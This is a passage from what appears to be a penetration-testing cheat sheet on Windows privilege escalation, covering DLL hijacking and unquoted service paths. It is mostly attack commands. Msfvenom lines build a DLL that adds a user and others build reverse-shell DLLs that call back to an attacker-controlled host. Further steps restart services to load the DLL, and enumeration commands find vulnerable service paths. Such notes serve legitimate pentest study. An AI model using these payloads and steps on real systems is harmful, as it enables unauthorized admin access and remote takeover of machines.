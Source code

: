 ```cpp
		break;
		case DLL_THREAD_DETACH: // A thread exits normally.
		break;
		case DLL_PROCESS_DETACH: // A process unloads the DLL.
		break;
	}
	return TRUE;
}

# Can be done using msfvenom
msfvenom -p windows/adduser USER=<user> PASS=<pass> -f dll -o user.dll
```

Cross-compile:
```powershell
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

OR use msfvenom:
```bash
# 32-bit
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=443 -f dll > <name>.dll

# 64-bit
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=443 -f dll > <name>.dll
```
>[!warning]
>Check if application is 32 or 64-bit!

Transfer the DLL and restart the service: (in the same directory as the .exe file)
```powershell
sc.exe stop <service>
sc.exe start <service>
Restart-Service <service>
```


### Unquoted Service Paths

Used with write permissions and if files cannot be replaced.

If the directory path contains spaces and no strings then it can be interpreted in various ways.
```powershell
C:\Program Files\My Program\My Service\service.exe

# Becomes:

C:\Program.exe 
C:\Program Files\My.exe 
C:\Program Files\My Program\My.exe 
C:\Program Files\My Program\My service\service.exe
```

Locate services outside of `C:\Windows\`
```powershell
wmic service get name,pathname | findstr /i /v "C:\Windows\\"
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
